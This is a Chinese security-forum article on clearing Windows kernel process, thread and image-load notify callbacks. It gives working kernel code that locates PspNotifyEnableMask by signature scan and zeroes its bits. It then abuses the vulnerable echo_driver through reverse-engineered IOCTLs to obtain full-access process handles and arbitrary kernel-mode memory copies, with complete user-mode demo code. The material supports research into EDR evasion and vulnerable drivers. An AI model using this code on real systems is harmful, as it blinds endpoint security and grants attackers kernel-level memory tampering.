# 清除内核回调-先知社区

> **来源**: https://xz.aliyun.com/news/16882  
> **文章ID**: 16882

---

本文将介绍如何在内核下清除 线程,进程,映像 三大回调

# PsSetCreateProcessNotifyRoutine

PspNotifyEnableMask是一个全局变量 起到一个判断是否开关回调函数的作用

比如PspSetCreateProcessNotifyRoutine中 通过判断第一位和第二位来设置Mask的值



PspCallProcessNotifyRoutines会判断这个值的第一位第二位 如果不为0则遍历回调执行



当我们将这两位置0后 回调就不再触发

过程如下

首先通过搜特征码获取PspNotifyEnableMask

通过导出函数PoRegisterCoalescingCallback往下找



```
ULONG64 GetPspNotifyEnableMask() {
     ULONG_PTR PspNotifyEnableMask = NULL;
 
     UNICODE_STRING uPoRegisterCoalescingCallback = { 0 };
     RtlInitUnicodeString(&uPoRegisterCoalescingCallback, L"PoRegisterCoalescingCallback");
     PUCHAR PoRegisterCoalescingCallback = MmGetSystemRoutineAddress(&uPoRegisterCoalescingCallback);
     if (MmIsAddressValid(PoRegisterCoalescingCallback)) {
         PoRegisterCoalescingCallback += 0x100;
         for (int i = 0; i <= 0xfff; i++) {
             if (PoRegisterCoalescingCallback[i] == 0x8b && PoRegisterCoalescingCallback[i + 1] == 0x05 && PoRegisterCoalescingCallback[i + 6] == 0xA8 && PoRegisterCoalescingCallback[i + 7] == 0x04) {
                 LONG offset = *(PLONG)(PoRegisterCoalescingCallback + i + 2);
 
                 PspNotifyEnableMask = (ULONG64)(PoRegisterCoalescingCallback +i + 6 + offset);
                 return PspNotifyEnableMask;
             }
         }
     }
     return 0;
 }
```

然后直接置第一位 第二位为0即可

```
void SetPspNotifyEnableMask(int bit,BOOLEAN isEnable) {
     static ULONG_PTR PspNotifyEnableMask = NULL;
     if (!PspNotifyEnableMask) {
         PspNotifyEnableMask = GetPspNotifyEnableMask();
     }
     if (MmIsAddressValid(PspNotifyEnableMask)) {
         ULONG val = *(PULONG)PspNotifyEnableMask;
         if (isEnable) {
             *(PULONG)PspNotifyEnableMask = val | (1 << bit);
         }else{
             *(PULONG)PspNotifyEnableMask = val & (~(1 << bit));
         }
 
     }
 
 }
```



# PsSetCreateThreadNotifyRoutine

和PsSetCreateProcessNotifyRoutine是类似的

不过是第三第四位





```
VOID ThreadCallBackRoutine(
     _In_ HANDLE ProcessId,
     _In_ HANDLE ThreadId,
     _In_ BOOLEAN Create
     ) {
     DbgPrintEx(77, 0, "callback TID[+]:%x
", ThreadId);
 
 }
 VOID
 TestRoutine(
     _In_ PVOID StartContext
 ) {
     DbgPrintEx(77, 0, "111111111111
");
 }
```



效果如下



# PsSetLoadImageNotifyRoutine

PsSetLoadImageNotifyRoutine是低0位



就不再演示了

# 利用echo\_driver摘除

<https://www.loldrivers.io/drivers/afb8bb46-1d13-407d-9866-1daa7c82ca63/>



符号链接 \??\DosDevices\EchoDrv

接着直接看派发函数部分 这里Parameters.Read.ByteOffset.LowPart是ida结构判断问题 实际就是IoControlCode

当IoControlCode==0x9e6a0594

进sub\_1400012BC 必须先通信走进去



原因是里面初始化了全局变量g\_currentPid





## 0xE6224248

```
v7 = irp->AssociatedIrp.MasterIrp;
         Process = 0LL;
         if ( PsLookupProcessByProcessId((HANDLE)*(unsigned int *)&v7->Type, &Process) >= 0
           && ObOpenObjectByPointer(
                Process,
                0,
                0LL,
                *(_DWORD *)(&v7->Size + 1),
                (POBJECT_TYPE)PsProcessType,
                0,
                (PHANDLE)&Handle) >= 0 )
         {
           if ( Process )
             ObfDereferenceObject(Process);
           v7->MdlAddress = (PMDL)Handle;
           LOBYTE(v7->Flags) = 1;
         }
         *(&v7->Flags + 1) = 4097;
         status = 0;
         v5 = 24LL;
         break;
```

这里的MasterIrp实际上应该是SystemBuffer



接受PID获取到句柄返回

demo如下

```
#include <iostream>
 #include <Windows.h>
 
 HANDLE hDevice = NULL;
 
 BOOLEAN LoadDriver(LPCWSTR driverName, LPCWSTR driverPath) {
 
     SC_HANDLE ScMgr = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
     if (!ScMgr) {
         std::cerr << "OpenSCManager failed: " << GetLastError() << std::endl;
         return FALSE;
     }
     SC_HANDLE hService;
     hService = CreateService(ScMgr, driverName, driverName, SERVICE_START | SERVICE_STOP | DELETE, SERVICE_KERNEL_DRIVER, SERVICE_DEMAND_START, SERVICE_ERROR_IGNORE, driverPath, NULL, NULL, NULL, NULL, NULL);
 
     if (!hService) {
         if (GetLastError() == ERROR_SERVICE_EXISTS) {
             hService = OpenService(ScMgr, driverName, SERVICE_START | SERVICE_STOP | DELETE);
         }
         else {
             std::cerr << "CreateService failed: " << GetLastError() << std::endl;
             CloseServiceHandle(ScMgr);
             return FALSE;
         }
     }
 
     BOOLEAN bSuccess = StartService(hService, NULL, NULL);
     if (!bSuccess) {
         std::cerr << "StartService failed: " << GetLastError() << std::endl;
 
     }
     CloseServiceHandle(hService);
     CloseServiceHandle(ScMgr);
 
     return TRUE;
 }
 BOOLEAN UnLoadDriver(LPCWSTR driverName) {
     SC_HANDLE ScMgr = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
     if (!ScMgr) {
         std::cerr << "OpenSCManager failed: " << GetLastError() << std::endl;
         return false;
     }
     SC_HANDLE hService = OpenService(ScMgr, driverName, SERVICE_START | SERVICE_STOP | DELETE);
     SERVICE_STATUS serviceStatus = {};
     if (ControlService(hService, SERVICE_CONTROL_STOP, &serviceStatus)) {
         std::cout << "Service stopped successfully." << std::endl;
     }
     else if (GetLastError() != ERROR_SERVICE_NOT_ACTIVE) {
         std::cerr << "ControlService failed: " << GetLastError() << std::endl;
         CloseServiceHandle(hService);
         CloseServiceHandle(ScMgr);
         return false;
     }
 
     if (!DeleteService(hService)) {
         std::cerr << "DeleteService failed: " << GetLastError() << std::endl;
         CloseServiceHandle(hService);
         CloseServiceHandle(ScMgr);
         return false;
     }
 
     CloseServiceHandle(hService);
     CloseServiceHandle(ScMgr);
     return true;
 
 
 }
 BOOLEAN initDriverComm() {
     hDevice = CreateFile(L"\\.\EchoDrv", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
     PVOID buf = (PVOID)malloc(0x1000);
     DWORD retBytes;
 
     return DeviceIoControl(hDevice, 0x9E6A0594, NULL, NULL, buf, sizeof(buf), &retBytes, NULL);
 }
 typedef struct _ProcessHandleStruct{
     DWORD pid;
     ACCESS_MASK Mask;
     HANDLE hProcess;
 }ProcessHandleStruct,*PProcessHandleStruct;
 
 HANDLE getHandle(DWORD pid) {
     PProcessHandleStruct pHandleSruct = (PProcessHandleStruct)malloc(sizeof(ProcessHandleStruct));
     pHandleSruct->pid = pid;
     pHandleSruct->Mask = PROCESS_ALL_ACCESS;
     DWORD retBytes;
     HANDLE hProcess = NULL;
     DeviceIoControl(hDevice, 0xE6224248, pHandleSruct, sizeof(ProcessHandleStruct), pHandleSruct, sizeof(ProcessHandleStruct), &retBytes, NULL);
     
     return pHandleSruct->hProcess;
 }
 int main(){
     LoadDriver(L"EchoDriver",L"C:\echo_driver.sys");
 
     initDriverComm();
 
     DWORD pid = GetCurrentProcessId();
     HANDLE hProcess = getHandle(pid);
 
     UnLoadDriver(L"EchoDriver");
 }
```



这个用不用两可

## 0x60A26124

```
case 0x60A26124u:
         v8 = irp->AssociatedIrp.MasterIrp;
         Process = 0LL;
         if ( ObReferenceObjectByHandle(*(HANDLE *)&v8->Type, 0, (POBJECT_TYPE)PsProcessType, 0, (PVOID *)&Process, 0LL) >= 0
           && (int)sub_140001B80(
                     (int)Process,
                     (int)v8->MdlAddress,
                     *(_QWORD *)&v8->Flags,
                     (int)v8->AssociatedIrp.MasterIrp,
                     (__int64)&v8->ThreadListEntry) >= 0 )
         {
           LOBYTE(v8->ThreadListEntry.Blink) = 1;
         }
         if ( Process )
           ObfDereferenceObject(Process);
         HIDWORD(v8->ThreadListEntry.Blink) = 0x1002;
         status = 0;
         v5 = 48LL;
         break;
```

调用sub\_140001B80 其中调用了MmCopyVirtualMemory 且参数可控



这里v12是KernelMode

还是先定义通信需要的结构

```
typedef struct _RWStruct{
     HANDLE hProcess;            // 0x0
     PVOID sourceAddr;           // 0x8
     PVOID targetAddr;           // 0x10
     SIZE_T size;                // 0x18
     PSIZE_T  numOfBytesCopyied; // 0x20
     NTSTATUS ret;               // 0x28
     ULONG unUse2;               // 0x2c
 }RWStruct,*PRWStruct;
 
 #define STATUS_SUCCESS          ((NTSTATUS)0x00000000L)
 #define STATUS_UNSUCCESSFUL     ((NTSTATUS)0xC0000001L)
```

demo如下

```
NTSTATUS copyMem(HANDLE hProcess,PVOID srcAddr,PVOID destAddr,SIZE_T size, PSIZE_T numOfBytesCopyied) {
     PRWStruct prwStruct = (PRWStruct)malloc(sizeof(RWStruct));
     prwStruct->hProcess = hProcess;
     prwStruct->sourceAddr = srcAddr;
     prwStruct->targetAddr = destAddr;
     prwStruct->size = size;
     prwStruct->numOfBytesCopyied = numOfBytesCopyied;
 
     DWORD retBytes;
 
 
     BOOLEAN isCommSuccess = DeviceIoControl(hDevice, 0x60A26124, prwStruct, sizeof(RWStruct), prwStruct, sizeof(RWStruct), &retBytes, NULL);
     if (isCommSuccess) {
         return STATUS_SUCCESS;
     }
     else{
         return STATUS_UNSUCCESSFUL;
     }
 }
 int main(){
     LoadDriver(L"EchoDriver",L"C:\echo_driver.sys");
 
     initDriverComm();
 
     DWORD pid = GetCurrentProcessId();
     HANDLE hProcess = getHandle(pid);
     char buf[] = "asdasda";
     char* buf2 = (char*)malloc(sizeof(buf));
     memset(buf2, 0, sizeof(buf));
 
     SIZE_T numOfBytesWritten = 0;
 
     copyMem(hProcess, buf, buf2, sizeof(buf), &numOfBytesWritten);
     UnLoadDriver(L"EchoDriver");
 }
```

